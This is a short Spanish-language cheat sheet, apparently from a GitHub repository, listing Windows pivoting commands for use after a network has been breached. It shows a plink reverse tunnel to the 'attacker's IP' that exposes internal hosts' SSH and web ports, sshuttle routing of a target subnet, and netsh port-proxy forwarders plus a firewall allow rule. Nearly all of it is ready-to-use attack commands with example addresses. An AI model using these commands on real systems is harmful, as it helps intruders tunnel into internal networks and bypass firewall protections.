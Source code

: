 
# Windows Pivoting Tools + Netsh advfirewall add Rule

- plink.exe -- Modo de uso
```bash
cmd.exe /c echo y | plink.exe -l <usuario> -pw <contraseña> <ip mia de atacante> -R <puerto que abrimos en mi maquina atacante>:<host de quien queremos tunelizar>:<puerto que queremos tunelizar>
```
_ejemplo: `cmd.exe /c echo | plink.exe -l pro -pw hola 192.168.10.10 -R 80:192.168.20.20:80 -R 2222:192.168.20.20:22 -N `

- sshuttle 
```bash
sshuttle -r <usuario>@<servidor ssh> <ip de red en la que operará la vpn>/<máscara de red en CIDR>
sshuttle -r <usuario>@<servidor ssh> --ssh-cmd "ssh -i <archivo clave privada>" <ip de red en la que operará la vpn>/<máscara de red en CIDR> --dns
sshuttle -r <usuario>@<servidor ssh> <ip de red en la que operará la vpn>/<máscara de red en CIDR> -x <servidor ssh> --dns -D (conexion en segundo plano)
```
ejemplo_: `sshuttle -r user@192.168.10.10 --ssh-cmd "ssh -i id_rsa" 192.168.20.0/24`

- Netsh
_comandos_ : `netsh interface portproxy show all`  `netsh interface portproxy reset`
             `netsh advfirewall firewall add rule name=<nombre de la regla> protocol=TCP dir=in localport=<puerto> action=allow`
```bash
netsh interface portproxy add v4tov4 listenport=<puerto a escuchar> listenaddress=<direccion a escuchar> connectport=<puerto a conectar> connectaddress=<direccion a conectar>
```

ejemplo_: `netsh interface portproxy add v4tov4 listenport=777 listenaddress=192.168.10.40 connectport=80 connectaddress=192.168.20.20`
